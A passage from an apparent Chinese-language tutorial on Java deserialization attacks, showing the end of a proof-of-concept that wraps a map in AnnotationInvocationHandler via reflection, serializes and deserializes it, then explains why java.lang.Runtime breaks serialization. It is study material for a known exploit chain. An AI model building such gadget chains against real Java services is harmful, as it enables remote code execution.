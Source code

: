 ```java
        construct.setAccessible(true);
        Object obj = construct.newInstance(Retention.class, outerMap);
    
    	ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(obj);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = ois.readObject();
    }
```

这里还需解释一点，对于`AnnotationInvocationHandler`的获取采取的是反射的方式，而不是直接new，这是因为该类为default。

运行现在的poc，发现它报错了，原因是java.lang.Runtime无法序列化

![image-20240703211830502](./images/image-20240703211830502.png)

java中的类要想反序列化，必须满足：

* 实现 java.io.Serializable 接口
* 所有属性必须是可序列化的。如果有一个属性不是可序列化的，则该属性必须注明是短暂的

